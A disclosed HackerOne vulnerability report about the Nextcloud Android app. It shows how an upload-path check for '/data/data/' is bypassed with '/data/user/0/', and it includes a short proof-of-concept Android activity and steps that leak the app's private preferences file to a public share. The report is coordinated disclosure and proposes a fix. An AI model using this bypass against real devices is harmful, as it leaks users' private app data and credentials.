 # Access to arbitrary file of the Nextcloud Android app from within the Nextcloud Android app

## Report Details
- **Report ID**: 1408692
- **URL**: https://hackerone.com/reports/1408692
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-11-23T23:44:09.500Z
- **Disclosed**: 2022-09-11T11:41:13.634Z

## Reporter
- **Username**: luchua
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
The Android client of nextcloud (com.nextcloud.client) allows arbitrary file including protected/private files to be leaked through the file upload functionality.

## Steps To Reproduce:
A report [1142918 ](https://hackerone.com/reports/1142918) has been submitted for the vulnerability of leaking arbitrary protected files. NextCloud added [a fix](https://github.com/nextcloud/android/pull/8433/commits/97d6f2954c879f3bfebcd241993147bced5fd50b) on May 18, 2021, which added a check to the class src/main/java/com/owncloud/android/files/services/FileUploader.java:
```
        if (file.getStoragePath().startsWith("/data/data/")) {
            Log_OC.d(TAG, "Upload from sensitive path is not allowed");
            return;
        }
```

The fix checks whether a file to be uploaded has a path starting with "/data/data". However, the check is not sufficient. We can easily bypass this check using the path "/data/user/0/" e.g. "/data/user/0/com.nextcloud.client/".  A program to exploit this vulnerability can be:
```
public class EvilActivity extends AppCompatActivity {
    private static final String LOG_TAG = EvilActivity.class.getName();

    final static String PRIVATE_URI = "file:///data/user/0/com.nextcloud.client/shared_prefs/com.nextcloud.client_preferences.xml";

    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Log.d("heen", "EvilActivity started!");
        setResult(-1, new Intent().setData(Uri.parse(PRIVATE_URI)));
        finish();
    }
}
```

A working POC is as follows:
### 1. install and login nextcloud android client e.g. through the provider https://us.cloudamo.com
### 2. create a directory and set it 'shareable'
### 3.install the POC app with the program above
### 4. Navigate to the shareable directory in the step2, click '+', then choose "upload content from other apps"
### 5. Select "poc" then protected file will be uploaded to the shared folder, which is publicly shared and leaked.

## Supporting Material/References:
A sample screenshot with protected files uploaded and their content is:
{F1523976}
{F1523979}

  * [attachment / reference]
See attachments above

## Impact

Arbitrary sensitive file of the nextcloud android client can be leaked. To address this issue, disallow any file whose path has the package name but isn't in the temp or cache folder of nextcloud. 

Please investigate. Thanks.

## Attachments
- nextcloud_file_upload.png
- nextcloud_prefs.png
